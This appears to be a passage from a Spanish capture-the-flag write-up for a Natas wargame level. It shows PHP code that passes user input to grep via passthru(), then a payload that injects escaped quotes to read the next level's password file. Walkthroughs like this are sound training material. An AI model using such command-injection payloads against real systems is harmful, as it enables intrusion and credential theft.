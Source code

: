 Si inspeccionamos el HTML, vemos que es similar al del nivel 10. Al obtener el
código, notamos que ahora hay aún mas restricciones con respecto a la entrada
del usuario:

```php
if(preg_match('/[;|&`\'"]/',$key)) {
    print "Input contains an illegal character!";
} else {
    passthru("grep -i \"$key\" dictionary.txt");
}
```

Entre los simbolos que podemos utilizar, esta el `\`. Este se utiliza en PHP
para escapar ciertos simbolos, por lo que podemos así introducir el caracter `"`
con su código ANSI: `\x22`.

Trataremos de ejecutar el comando:

```bash
$ grep -i "" "/etc/natas_webpass/natas17" dictionary.txt
```

Para eso, enviaremos al servidor la cadena:

```txt
\x22 \x22/etc/natas_webpass/natas17
```
